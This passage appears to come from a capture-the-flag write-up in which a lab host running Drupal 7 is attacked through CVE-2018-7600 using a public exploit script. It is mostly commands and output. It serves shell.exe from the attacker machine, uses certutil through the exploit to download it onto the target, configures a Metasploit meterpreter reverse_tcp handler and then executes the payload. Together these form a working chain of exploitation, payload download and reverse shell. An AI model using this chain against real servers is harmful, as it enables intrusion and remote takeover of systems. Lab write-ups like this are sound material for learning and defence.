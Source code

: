 To upload the payload "shell.exe", run a  web server on the localhost.
{% highlight shell %}
root@kali:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...


{% endhighlight %}

Next, let the server download our "shell.exe" with the following way.
{% highlight shell %}
root@kali:~/CVE-2018-7600# python drupa7-CVE-2018-7600.py -c "certutil.exe -urlcache -split -f http://10.10.14.36:8000/shell.exe shell.exe" http://10.10.10.9
()
=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-eluco1rRs3Likgl6whfexWXJUfBv18WMnuEcvVUc-hw
[*] Triggering exploit to execute: certutil.exe -urlcache -split -f http://10.10.14.36:8000/shell.exe shell.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.

root@kali:~/CVE-2018-7600#
{% endhighlight %}

After that, set a handler for the meterpreter shell.
{% highlight shell %}
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set lhost 10.10.14.36
lhost => 10.10.14.36

msf5 exploit(multi/handler) > set lport 1338
lport => 1338

msf5 exploit(multi/handler) > run
{% endhighlight %}

Finally, run the following command to execute the remote "shell.exe"
{% highlight shell %}
root@kali:~/CVE-2018-7600# python drupa7-CVE-2018-7600.py -c "shell.exe" http://10.10.10.9
()
=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-3CDbNQWCSlC7U8JT4zNX52Lhbp3Kyc3txDmOtm_2Cxk
[*] Triggering exploit to execute: shell.exe

{% endhighlight %}

